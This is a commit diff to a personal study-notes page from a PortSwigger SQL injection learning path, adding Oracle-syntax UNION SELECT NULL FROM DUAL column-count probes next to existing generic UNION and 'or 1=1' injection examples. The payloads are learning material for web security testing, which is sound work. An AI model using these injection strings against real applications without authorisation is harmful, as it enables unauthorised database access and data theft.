

Before and after one commit to SuchABlackCat/PortSwigger-Learning-Path, a Markdown page: SQL Injection/SQL Injection.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update Oracle syntax

```diff
--- a/SQL Injection/SQL Injection.md
+++ b/SQL Injection/SQL Injection.md
@@ -69,3 +69,8 @@ WHERE category = 'Gifts' or 1=1;--' AND released = 1;</pre>
 ' UNION SELECT NULL,NULL--
 ' UNION SELECT NULL,NULL,NULL--
 ...</pre>
+  <p><strong>Oracle</strong></p>
+<pre>' UNION SELECT NULL FROM DUAL--
+' UNION SELECT NULL,NULL FROM DUAL--
+' UNION SELECT NULL,NULL,NULL FROM DUAL--
+...</pre>
```
